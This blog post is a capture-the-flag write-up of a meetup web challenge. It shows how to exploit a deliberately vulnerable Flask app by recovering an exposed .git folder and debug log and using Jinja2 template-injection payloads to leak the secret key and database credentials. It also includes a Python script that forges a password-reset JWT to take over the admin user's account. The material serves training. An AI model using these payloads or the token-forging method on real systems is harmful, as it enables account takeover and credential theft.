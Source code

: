 ```yaml
---
layout: post
title:  "ØxＯＰＯＳɆＣ Mɇɇtuᵽ [0x70] Challenge Write-up"
categories: [infosec, iot]
tags: [oposec, infosec, ctf]
description: "Write-up for the CTF-like challenge of 0x70 edition of the ØxＯＰＯＳɆＣ Mɇɇtuᵽ"
---
```


"Based in Porto, the ØxＯＰＯＳɆＣ group was started by g33ks who are passionate about security. The meetup primary mission is to discuss and tackle upsurging security issues by leveraging the expertise and know-how of members of the group." This is the write-up of the challenge at the 0x70 meetup edition, by [DDuarte](https://github.com/DDuarte) and André Morais.
<!--more-->

The meetup happens in a monthly-basis, feel free to [join in](https://www.meetup.com/0xOPOSEC/).

![Index Page/Login](/images/oposec/index.png)

Jumping to the challenge. We're given an URL to a Twitter-like website named Twipy (image). From the name, we can conclude that maybe it is made in Python. We know that there are 4 flags to be found: 

- Flag 1 - Version Control is easy
- Flag 2 - Debug 101
- Flag 3 - Nice tweet Eve 🧪
- Flag 4 - This link is bamboozling

All the flags have the same format: *{flag}Rand0mStuff*

## Recon

First things first, lets make some recon even without creating an account. Firing up a [dirsearch](https://github.com/maurosoria/dirsearch) maybe will give us something. The results can be summed up as follow (200 status code results):

{% highlight bash linenos %}
$ dirsearch -u "example.com" -e py,php
|- 200 -    1KB - /.git/
|- 200 -  735B  - /.gitignore
|- 200 -    3KB - /auth/login
|- 200 -   19KB - /debug.log
{% endhighlight %}

So, from dirsearch, we found an exposed ```.git``` folder and a ```debug.log``` file. Downloading all the things with ```wget```.

{% highlight bash linenos %}
$ wget --mirror -I .git http://example.com/.git/
$ wget http://example.com/debug.log
{% endhighlight %}

Before moving further, firing up ```nmap``` returns only ports 22 (SSH) and 80 (HTTP), so nothing unusual here. We could try to find the credentials for the SSH, but it is a long-shot from the beginning. Firing also ```sqlmap``` on all the possible injectable fields (login form, account reset and ```next``` query param) also resulted in a dead-end.

![Timeline/Home](/images/oposec/timeline.png)

Moving further, and creating an account, we end up with a timeline (image). In the image we can see another user posts, *Willis Adams*, which has two messages being one of them a private message that we can only see the first 6 chars: *{flag}\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\**. Only the *Willis Adams* user can see the message behind the asterisk, but it is a flag. 

The other features of the website like the update profile, explore other users tweets and searching resulted in dead-ends.

## Flag 1 - Version Control is easy

After finding the ```.git``` folder, the next obvious step was to try to recover all the source code. By making a ```$ git status``` we could see all the files that were deleted. 

{% highlight bash linenos %}
$ git checkout -- .
{% endhighlight %}

Running the above command restored all the files to their most recent version (before being deleted). By checking the ```$ git log``` we found out some curious commit messages like *Don't disclose mail password :)*, but I could not find anything by analyzing the git diffs. 

Since we know that all flags have the same format, making an exaustive search among all files and revisions:
{% highlight bash linenos %}
$ git grep ".*flag.*" $(git rev-list --all)
{% endhighlight %}

We could find that in the commit ```eb3cb7e1ec4e73b0850ec4a6c4a89122599d213d``` the file ```twipy.py``` had the following line of code:

{% highlight python linenos %}
return '{flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.'
{% endhighlight %}
    
And so, we have our first flag:

>> {flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.

## Flag 2 - Debug 101

During our recon phase we found out that a ```debug.log``` was exposed and accessible. Analyzing its contents we could immediatelly find the next flag:

{% highlight bash linenos %}
2019-01-10 17:52:25,489 ERROR: Unhandled Exception: {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c [in /twipy/app/errors/handlers.py:21]
{% endhighlight %}

Further, we found out that calling ```http://example.com/flag``` was the trigger to write that exception to the log file.

>> {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c

## Flag 3 - Nice tweet Eve 🧪

Since we now have access to the source code of the app, and sure that the app is written in Python, one of the first things that come to mind is [Server-Side Template Injection](https://portswigger.net/blog/server-side-template-injection). Reading some tutorials and write-ups about the subject I found this one as being the most straightforward: [Flaskcards challenge at Pico CTF 2018](https://s0cket7.com/picoctf-web).

To find if the website is vulnerable we simply tweet ```{% raw  %}{{ 7 * 7 }}{% endraw  %}```, and in the alert-info box we got the following response:
*You just posted: 49*

So our code is being executed. In order to exploit Template Injection firstly, we must find out what is the template engine being used. To do so, the probe ```{% raw  %}{{7 * '7'}}{% endraw  %}``` would result in ```49``` in Twig, ```7777777``` in Jinja2, and neither if no template language is in use. In our case, the response was: *You just posted: 7777777*, so we're dealing with Jinja2.

We could also reach the same conclusion by analyzing the Python packages in the ```requirements.txt``` file. And we could also identify the vulnerable code:

{% highlight python linenos %}
# TODO add user input validation
post_content = render_template_string('''You just posted: %s ''' % form.post.data)
{% endhighlight %}

The next step was trying to get the config, posting ```{% raw  %}{{ config.items() }}{% endraw  %}```, which resulted in an alert-info with a lot of information that is contained in the config, including:
- FLAG: {flag}V4lid4t3_always_us3r_1NPUT 
- SECRET_KEY: yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc=
- SQLALCHEMY_DATABASE_URI: mysql+pymysql://twipy:RkZDwtkaZ9ugnwf@db/twip

So we have our third flag:

>> {flag}V4lid4t3_always_us3r_1NPUT 

## Flag 4 - This link is bamboozling

One of the things that can be easily noticed is that each user has a unique UUID, e.g. *ae1677ca-f7bd-431a-8280-8fdf4aa801ca*. We can also visit other users profiles and get their unique UUID. 

{% highlight python linenos %}
god_user = User.query.filter_by(email='willis.adams@example.com').first()
if god_user:
    user.follow(god_user)
{% endhighlight %}

Analyzing the code creating a new user account, we notice that all the users must follow the user *Willis Adams*, with the UUID *70a82737-a6d9-4284-93db-0600db6f05ca*. 

{% highlight python linenos %}
def dummy_password(size=8, chars=string.ascii_letters + string.digits):
    return ''.join(random.choice(chars) for i in range(size))
{% endhighlight %}

Since the passwords are randomly generated in the ```twipy.py```, brute-forcing would take too much time. Another attack-vector can be the recovery password mechanism. By analyzing the structure of the recovery link, we notice that it resembles a [JWT token](https://jwt.io/): 

```http://example.com/auth/reset_password/eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InphZnlmb2t1QGdldG5hZGEuY29tIiwiaWQiOiJhZTE2NzdjYS1mN2JkLTQzMWEtODI4MC04ZmRmNGFhODAxY2EiLCJleHAiOjE1NDc3MjY4NzEuMzgwMzQ2LCJuYW1lIjoidHNhciJ9.pDrpqe-GB8Qo2xEdD5pDA9wIOtNpOl3GAq19LBFZJXs```.

In the  ```models.py``` file we have the following logic for assigning and validating recovery password tokens (JWT tokens).

{% highlight python linenos %}
def get_token(self, expires_in=600):
    return jwt.encode(
        {'id': self.id, 'name': self.name, 'email': self.email, 'exp': time() + expires_in},
        current_app.config['SECRET_KEY'],
        algorithm='HS256').decode('utf-8')

@staticmethod
def verify_token(token):
    try:
        id = jwt.decode(token, current_app.config['SECRET_KEY'], verify=False, algorithms=['HS256'])['id']
    except:
        return
    return User.query.get(id)
{% endhighlight %}

Since there is no call to database or nounce being used, we can make our own JWT tokens if we know the SECRET_KEY (from the third flag) and the UUID of the target user, in this case, the **god user**.

By making a simple script (checking out in the requirements.txt the Python package used for the JWT - PyJWT), we can get the JWT token in question.

{% highlight python linenos %}
import jwt
from time import time

secret_key = 'yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc='
id = "70a82737-a6d9-4284-93db-0600db6f05ca"
name = "Willis Adams"
email = "willis.adams@example.com"
expires_in = 600;

print jwt.encode(
    {'id': id, 'name': name, 'email': email, 'exp': time() + expires_in},
    secret_key,
    algorithm='HS256').decode('utf-8')
{% endhighlight %}

By setting a new password to the *god user* we can see their private tweets thus getting the flag.

>> {flag}4lw4ys_v3r1fy_y0ur_t0k3NS


## Wrap-Up

It was a nice web challenge, always learning a little bit more about infosec and CTFs. Kudos @dduarte and @AndreMorais for the challenge.